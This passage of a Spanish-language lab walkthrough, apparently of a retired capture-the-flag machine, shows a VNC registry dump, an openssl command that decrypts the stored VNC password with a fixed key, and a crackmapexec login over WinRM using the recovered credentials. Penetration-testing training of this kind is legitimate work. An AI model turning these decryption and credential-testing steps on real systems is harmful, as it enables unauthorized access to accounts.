 ```bash
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
#  "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

Intentamos decodarla con el comando `xxd -ps -r` pero no nos devuelve nada legible y claro

Buscamos por `VNC Decryp hex password` en Google

Encontramos el siguiente comando para hacerlo

```bash
# echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv                                                                                              1 ⚙
00000000  73 54 33 33 33 76 65 32                        "   |sT333ve2|      "
00000008
```

Procedemos a almacenar las credenciales para el usuario:
`s.smith:sT333ve2`

Chequeamos si este usuario pertenece al `Grupo Remote Managment`

```bash
# crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2                                                                                                                                                                              1 ⚙
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```
